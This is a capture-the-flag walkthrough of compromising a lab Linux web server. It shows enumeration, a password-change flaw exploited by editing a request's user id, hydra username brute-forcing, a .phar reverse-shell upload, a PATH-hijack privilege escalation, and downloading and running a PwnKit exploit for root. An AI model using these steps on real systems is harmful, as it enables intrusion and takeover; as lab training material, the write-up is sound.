 # CTF 03
```bash
IP=192.168.10.16
```

## nmap

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

## gobuster

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

upload looks interesting

## http
`$IP:80`
apache server with php

open in browser, register an account
```
username: pascal
email: pascal@bosym.de
password: pascal
```

after login, the upload page is available, exposing a directory listing with a file called [`d.jpg`](d.jpg)

nothing in metadata

```bash
$ file d.jpg
d.jpg: JPEG image data, Exif standard: [TIFF image data, big-endian, direntries=1, orientation=upper-left], baseline, precision 8, 1280x1280, components 3

$ exiftool d.jpg
ExifTool Version Number         : 12.41
File Name                       : d.jpg
Directory                       : .
File Size                       : 172 KiB
File Modification Date/Time     : 2022:06:14 11:57:24+02:00
File Access Date/Time           : 2022:06:14 11:58:21+02:00
File Inode Change Date/Time     : 2022:06:14 11:57:35+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Current IPTC Digest             : d41d8cd98f00b204e9800998ecf8427e
IPTC Digest                     : d41d8cd98f00b204e9800998ecf8427e
Image Width                     : 1280
Image Height                    : 1280
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x1280
Megapixels                      : 1.6
```

### change password

using a authenticated account and burb, you can change the password of other userids by changing the id in the post request using burp.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

changed the password of user 1 and 2, since my account is 3.

now find the usernames using bruteforce by creating new users. if the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root $IP http-post-form "/register.php:username=^USER^&password=^USER^&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```


so username is either `admin` or `GUEST`.


when login with `admin:root` you can upload a file to the server.

## reverse shell
Sorry , Allow Ex : jpg,png,gif

it works with [`.phar`](shell.phar), for some reason.

`nc -lvp 1337`

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

there is a [`toto`](toto) binary file. Using [`objdump -d toto > disassembly.asm`](disassemly.asm) and `strings toto`, we can see, that the calls `setgid`, `setuid` and `system` are being used. When executed the result is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

so it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

so we change the path variable, create a "fake" `id`, execute it and change the path back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

now we can login via ssh with `john:root123` using `ssh john@$IP` to close the reverse shell.


## getting root

with the john user, run [linpeas](https://github.com/carlospolop/PEASS-ng) ([Output](linpeas.txt)) to search for ways to escalate privilege.

the logs show a possibility for CVE-2021-4034.

download the [PoC for PwnKit](https://github.com/arthepsy/CVE-2021-4034), compile and run it.

```bash
john@darkhole:~$ wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
2022-06-14 16:24:48 (116 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]

john@darkhole:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc

john@darkhole:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1001(john)

# ls -lah /root
total 44K
drwx------  6 root root 4.0K Jul 17  2021 .
drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
-rw-------  1 root root 3.0K Jun 14 15:29 .bash_history
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Jul 17  2021 .cache
drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
-rw-------  1 root root   18 Jul 15  2021 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 15  2021 .ssh
-rw-r--r--  1 root root   44 May 15 15:37 root.txt
drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap

# cat /root/root.txt
cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}
```

## Flags

User: `cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}`
Root: `cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}`